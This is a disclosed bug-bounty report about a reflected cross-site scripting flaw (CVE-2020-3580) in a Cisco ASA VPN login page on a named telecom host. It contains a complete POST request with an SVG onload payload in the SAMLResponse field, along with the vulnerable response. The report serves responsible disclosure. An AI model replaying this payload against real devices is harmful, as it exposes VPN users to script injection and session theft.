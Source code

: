 # Reflected Cross Site Scripting Cisco ASA on  myvpn.mtncameroon.net CVE-2020-3580

## Report Details
- **Report ID**: 1247833
- **URL**: https://hackerone.com/reports/1247833
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-30T01:07:08.686Z
- **Disclosed**: 2024-08-23T12:52:19.452Z

## Reporter
- **Username**: renzi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
##Summary:

Hello, I would like report this vulnerability to MTN, Cross Site Scripting on Cisco ASA CVE-2020-3580.

Multiple vulnerabilities in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct cross-site scripting (XSS) attacks against a user of the web services interface of an affected device.

##Steps To Reproduce:
###how we can reproduce the issue;

1.Go to  https://myvpn.mtncameroon.net ;
2. Intercept request with burp suite and send this "POST" Request, we will see response with JavaScript ..

* Request
```
POST /+CSCOE+/saml/sp/acs?tgname=a HTTP/1.1
Host: myvpn.mtncameroon.net
Cookie: webvpnlogin=1; webvpnLang=en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close
Content-Length: 42

SAMLResponse="><svg/onload=alert('Renzi')>
```

* Response
```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Pragma: no-cache
Connection: Keep-Alive
Date: Wed, 30 Jun 2021 00:59:25 GMT
X-Frame-Options: SAMEORIGIN
Content-Length: 761


<html>
<head>
<script>
function submit_saml() {
    document.cookie = "webvpnlogin=1; path=/; secure";
    document.createElement('form').submit.call(document.getElementById('samlform'));
}
</script>
</head>
<body onload="submit_saml()">
<form id="samlform" action="/+webvpn+/index.html" method="POST">
<input type="hidden" name="tgroup" value="">
<input type="hidden" name="next" value="">
<input type="hidden" name="tgcookieset" value="">
<input type="hidden" name="group_list" value="a">
<input type="hidden" name="username" value="">
<input type="hidden" name="password" value="">
<input type="hidden" name="SAMLResponse" value=""><svg/onload=alert('Renzi')>">
<input type="submit" name="Login" value="Login" style="display:none;">
</form>
</body>
</html>
```

3.Response with JavaScript alert, Proof of Concept XSS.

{F1358622}

##Supporting Material/References:

* https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-asaftd-xss-multiple-FCB3vPZe.html
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-3580

## Impact

A successful exploit could allow the attacker to execute arbitrary script code in the context of the interface or allow the attacker to access sensitive, browser-based information.

## Attachments
- imagem_2021-06-29_220541.png
